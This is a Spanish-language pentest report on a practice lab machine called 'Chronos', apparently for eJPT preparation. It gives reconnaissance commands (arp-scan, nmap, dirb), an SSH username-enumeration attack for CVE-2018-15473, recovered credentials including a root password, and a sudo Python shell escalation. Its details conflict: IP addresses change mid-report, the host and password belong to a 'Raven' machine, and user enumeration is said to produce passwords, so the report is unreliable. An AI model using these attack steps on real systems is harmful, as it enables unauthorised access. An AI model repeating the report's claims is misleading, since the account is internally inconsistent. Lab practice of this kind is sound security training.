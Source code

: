 # Informe de Pentesting - Chronos

**Máquina:** Chronos
**Autor:** Klauss Reyes Granados
**Certificación:** Preparación eJPT

---

## 🎯 Objetivo

Realizar pruebas de penetración sobre la máquina "Chronos" mediante análisis de servicios web, ataques a SSH y escalado de privilegios en Linux.

---

## 🛰️ Recolección de Información

* IP atacante: 192.1.1.11
* Escaneo de red:

  ```bash
  arp-scan -I eth0 192.1.1.0/24
  ```
* Escaneo de puertos:

  ```bash
  nmap -p- -sV -sS -Pn -n 192.1.1.12
  ```

---

## 🔎 Enumeración de Servicios

### Puerto 80 - HTTP

* Página por defecto Apache en Debian.
* Descubrimiento de directorio WordPress:

```bash
dirb http://192.1.1.10/wordpress
```

* Usuarios WordPress encontrados:

  * michael
  * steven

---

## 💥 Explotación

### Ataque SSH por CVE-2018-15473 (username enumeration)

```bash
./ssh-username-enum.py -t 10 -w wordlist_raven raven.local
```

* Credenciales válidas:

  * michael\:michael
  * root\:R\@v3nSecurity
  * steven\:pink84

Acceso exitoso vía SSH.

---

## ⬆️ Escalado de Privilegios

* Utilización de Python para invocar shell interactiva con privilegios:

```bash
sudo python -c 'import pty; pty.spawn("/bin/bash")'
```

---

## 🚨 Vulnerabilidades Detectadas

| ID | Vulnerabilidad                      | Nivel   | Recomendación                                                         |
| -- | ----------------------------------- | ------- | --------------------------------------------------------------------- |
| 1  | Enumeración de usuarios SSH vía CVE | Alto    | Parchear versión afectada                                             |
| 2  | Contraseñas débiles (usuario=root)  | Crítico | Usar autenticación basada en claves y política de contraseñas seguras |
| 3  | Escalada simple vía Python sudo     | Alto    | Limitar comandos sudo ejecutables                                     |

---

## ✅ Conclusiones

* Se identificaron cuentas activas mediante enumeración remota de usuarios.
* Acceso total fue obtenido explotando contraseñas débiles.
* Privilegios root se alcanzaron mediante uso de Python desde sudo sin restricción.

> Máquina útil para practicar vulnerabilidades conocidas en SSH y técnicas básicas de evasión en entornos Linux.
